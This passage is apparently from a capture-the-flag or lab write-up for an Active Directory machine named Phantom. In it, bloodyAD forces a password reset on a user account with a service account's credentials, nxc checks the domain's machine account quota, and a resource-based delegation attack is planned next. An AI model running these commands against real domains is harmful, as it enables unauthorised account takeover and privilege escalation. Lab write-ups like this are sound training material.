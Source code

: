 ![alt text](<../assets/images/Screenshot 2025-03-19 at 23-32-29 BloodHound.png>)

lets change password of Crose and use him to allowedtoACT
### ForceChangePassword

```sh
➜  autobloodyAD git:(main) bloodyAD --host DC.phantom.vl -d phantom.vl -u svc_sspr -p gB6XTcqVP5MlP7Rc set password crose NewPassword123

[+] Password changed successfully!
```

### AddAllowedToAct
Whatttttttt
```sh
➜  Phantom nxc ldap DC.phantom.vl -u svc_sspr -p 'gB6XTcqVP5MlP7Rc' -M maq
SMB         10.10.96.47     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
LDAP        10.10.96.47     389    DC               [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc 
MAQ         10.10.96.47     389    DC               [*] Getting the MachineAccountQuota
MAQ         10.10.96.47     389    DC               MachineAccountQuota: 0
```

we cannot add computer but i found this [article](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd) work great!!!!
